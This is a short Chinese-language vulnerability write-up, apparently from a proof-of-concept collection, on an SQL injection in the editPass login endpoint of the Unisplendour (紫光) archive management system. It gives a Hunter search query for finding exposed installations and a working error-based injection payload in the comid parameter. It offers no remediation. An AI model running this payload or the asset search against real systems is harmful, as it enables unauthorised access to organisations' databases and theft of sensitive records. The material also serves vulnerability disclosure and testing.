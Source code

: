 # 紫光档案管理系统editPass存在SQL注入漏洞

# 一、漏洞简介
紫光电子档案管理系统是一款专业的电子档案管理软件，旨在帮助企业实现高效、便捷的档案管理。系统具有强大的文件存储、检索和共享功能，能够提供全面的档案管理解决方案。同时，紫光电子档案管理系统还拥有智能化的分类和归档功能，可以自动识别文件类型和属性，实现快速分类和高效管理。用户只需简单操作，就能轻松实现对各类电子档案的整理、查询和备份，极大提升了工作效率和信息安全性。紫光档案管理系统editPass存在SQL注入漏洞，攻击者可通过该漏洞获取数据库敏感信息。

# 二、影响版本
+ 紫光档案管理系统

# 三、资产测绘
+ hunter`app.name="紫光档案管理系统"`
+ 特征

![1706701328959-e1863eab-b7f1-4486-80c8-0a22052ee093.png](./img/j5f7yjDb2Np2A0LL/1706701328959-e1863eab-b7f1-4486-80c8-0a22052ee093-198835.png)

# 四、漏洞复现
```plain
/login/Login/editPass.html?comid=extractvalue(1,concat(char(126),md5(1)))
```

![1706702958468-3b2d1939-8759-471a-b80c-468e348230f1.png](./img/j5f7yjDb2Np2A0LL/1706702958468-3b2d1939-8759-471a-b80c-468e348230f1-888044.png)



> 更新: 2024-02-29 23:55:41  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/mqsvv42n8mikbt25>